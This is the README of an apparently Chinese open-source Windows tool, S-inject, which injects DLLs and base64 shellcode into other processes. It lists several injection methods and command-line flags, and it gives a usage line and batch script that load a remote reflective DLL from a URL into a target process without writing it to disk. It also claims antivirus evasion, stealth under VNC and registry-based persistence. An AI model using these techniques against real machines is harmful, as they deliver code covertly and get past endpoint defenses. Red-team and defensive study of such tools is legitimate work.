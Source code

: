 ![](https://img.shields.io/badge/joe1sn-S_inject-green)  ![](https://img.shields.io/badge/windows-C++-yellow)

<h1><p align="center">S-inject</p></h1>

<p align="center">DLL+Shellcode的Windows注入免杀工具</p>

<p align="center"><img src="./README.assets/image-20240205141410967.png"></p>

只是罗列各种方法，免杀推荐搭配其他技巧，要具体灵活使用

**须知：**

1. 反射式注入参考了著名github项目：https://github.com/stephenfewer/ReflectiveDLLInjection
   该项目为反射式注入支持的DLL
2. Shellcode使用base64编码后的shellcode
3. 相关测试的DLL文件在`Test Files`文件夹中

**免责声明：** 本工具仅供教育和授权测试目的使用。开发者及贡献者不支持、不鼓励也不赞成任何非法或未经授权的使用。 用户有责任确保其使用本工具的行为符合所有适用的法律法规。严禁将本工具用于任何未经授权的活动。 开发者及贡献者对使用本工具造成的任何损害或后果不承担责任。使用前请自行承担风险。 通过使用本工具，您同意这些条款，并对您的行为承担全部责任。

# Update

- **[2024-3-8]** 更新64位`CreateRemoteThread`为直接系统调用，方法采用`SysWhispers3`项目

- **[2024-4-1]** 更新DLL的暴力注入，详细见readme->使用->DLL自动注入/暴力注入

- **[2024-5-16]** 更新远程线程注入，让取消DLL注入更加便捷，便于第二次注入

- **[2024-5-24]**  **更新GUI图形化界面**，之前版本只保留原始二进制文件。貌似之前就被defender识别到了....

- **[2024-6-6]** 
1. 更好的GUI布局，支持Docking。
  2. 代码整理，优化项目文件结构，尽量贴合我认为（~~知道~~）的现代cpp规范。
  3. 遍历部分使用 `NtQuerySystemInformation`  （虽然会导致快速刷新）

- **[2024-6-18]** 修复选择进程和遍历进程快速闪烁的问题。修复后需要重新开打功能才能看到新的进程。
- **[2024-7-7]** 优化一个进程选择Bug，详细见 [issues 2](https://github.com/Joe1sn/S-inject/issues/2)
- **[2025-2-17]**

1. 新增远程URL加载DLL
2. 由于 [issues 4](https://github.com/Joe1sn/S-inject/issues/4)等的反应，使用参数快速完成注入

# New Feature

- [2025-2-17] V2.2更新

  1. 新增远程URL进行Get请求加载DLL，可以实现dll文件不落地加载dll，由于依赖反射式注入，所以dll的格式应该与反射式注入的相同，格式为：https://github.com/stephenfewer/ReflectiveDLLInjection

     ![image-20250217173155506](D:\Github\S-inject\README.assets\image-20250217173155506.png)

  2. 添加参数可以快速完成注入

     `-method`：使用的注入方法

     - `rmtdll`：远程线程注入DLL
     - `refdll`：反射式注入DLL
     - `apcdll`：APC队列注入DLL

     - `net`：从网络加载DLL注入DLL
     - `rmtsc`：远程线程注入Shellcode
     - `apcsc`：APC队列注入Shellcode
     - `ctxsc`：上下文注入Shellcode

     `-proc`：注入进程的名字

     `-path`：dll的文件路径、dll的url（http开头）、base64后的shellcode

     `-pid`：进程`PID`

     用例

     ```
     .\S-Inject_x86_gui.exe -method net -proc "x32dbg" -path "http://127.0.0.1/reflective_x86.dll"
     ```

     ![image-20250217193111847](D:\Github\S-inject\README.assets\image-20250217193111847.png)

     可以据此编写对应的bat脚本来实现自动注入，如这里的`test.bat`

     ```
     @echo off
     D:\Github\S-inject\Release\S-Inject.exe -method net -proc "x32dbg" -path "http://127.0.0.1/reflective_x86.dll"
     pause
     ```

     这样双击该bat脚本即可向`x32dbg`的进程使用`网络加载`注入url为`http://127.0.0.1/reflective_x86.dll`的dll

- [2024-6-6] V2.1更新

  1. Docking，拖拽可以重新排版

     ![image-20240606124658850](./README.assets/image-20240606124658850.png)
     
  2. ImGUI窗口排版通过`imgui.ini`保存，可参考我的排版（ini文件位于bin中，使用时放于同一目录下）
  
     ![image-20240606224950591](./README.assets/image-20240606224950591.png)

# 免杀效果

远程shellcode注入等功能可免杀火绒，VNC无感，可注册表添加开机自启动

![image-20240216112653373](./README.assets/image-20240216112653373.png)

![image-20240216113029381](./README.assets/image-20240216113029381.png)

![image-20240216113432922](./README.assets/image-20240216113432922.png)

![image-20240216113917066](./README.assets/image-20240216113917066.png)

# 支持功能

![image-20240205124826998](./README.assets/image-20240205124826998.png)

**DLL注入**

- 远程线程注入
- 反射式注入
- APC调度注入

**Shellcode注入**

- 远程线程注入
- APC调度注入
- Context上下文注入

**可注入进程遍历**

# 使用

1.x版本（无图像化界面）使用说明见：`oldREADME.md`

![image-20250217193433513](D:\Github\S-inject\README.assets\image-20250217193433513.png)

直接勾选对应功能，选择DLL/Shellcode，和对应进程的PID

<img src="./README.assets/image-20240520101608876.png" alt="image-20240520101608876" style="zoom: 80%;" />

![image-20240520101704029](./README.assets/image-20240520101704029.png)

最后点击`start`开始注入





